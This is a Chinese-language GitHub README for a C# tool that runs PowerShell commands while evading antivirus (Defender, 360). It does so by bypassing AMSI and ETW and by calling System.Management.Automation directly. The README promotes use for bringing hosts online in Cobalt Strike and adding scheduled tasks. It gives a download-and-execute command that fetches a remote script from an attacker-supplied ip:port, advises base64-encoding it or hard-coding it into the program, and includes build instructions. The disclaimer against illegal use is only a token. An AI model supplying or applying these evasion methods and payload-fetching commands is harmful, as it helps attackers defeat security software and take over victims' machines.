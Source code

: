 # powershell-bypss

powershell命令免杀的小工具，可过Defender、360等，可执行上线cobaltstrike、添加计划任务等。

AMSI绕过+ETW绕过+Automation执行powershell命令。

理论上来说遇到禁用powershell的情况也可以通过该工具执行powershell的命令。

**请勿使用于任何非法用途，由此产生的后果自行承担。**

**理论上来说可以免杀执行任意powershell命令，但是调用了如schtask这类被监控的程序还是会被查杀的。**

上述测试环境均为实体机。

思路很简单，很久之前就有了，工具调用C:\Windows\Microsoft.NET\assembly\GAC_MSIL\System.Management.Automation目录下面的System.Management.Automation.dll执行底层api来绕过杀软对powershell的监控，同时绕过AMSI的检测与对ETW的监控。由于patch绕过AMSI的方法会被360查杀，因此这里使用了设置System.Management.Automation.AmsiUtils的方法来绕过。

这里用对命令进行了base64编码，当然这就是一个命令的加载器，具体怎么加密命令有各种各样的方法。

由于是C#，因此可以用execute-assembly内存执行的方式来不落地执行，不过cs本身的powerpick就实现了这个功能，这里只是单拿出来做一个小工具。

**师傅们注意避免用powershell命令，上线cobaltstrike只需要base64```IEX ((new-object net.webclient).downloadstring('http://ip:port/a'))```裸命令，如果以powershell开头那么还是会调用powershell被360拦截的。**

**想单纯来上线cs的师傅可以把IEX开头的powershell命令写定在程序里的myPipeLine.Commands.AddScript参数中**

**编译**

1、正常的编译：目标版本设置为4.8编译

2、面向低版本win7/winserver的编译：将Class1.cs中的28-32行代码注释掉，目标版本设置为2.0编译

![image](https://user-images.githubusercontent.com/48757788/203709296-768cc97f-29bf-432a-b260-2e654164cd07.png)

![1669271189122](https://user-images.githubusercontent.com/48757788/203709759-c0b5edf1-26d2-4fea-b1be-199aedf31008.jpg)







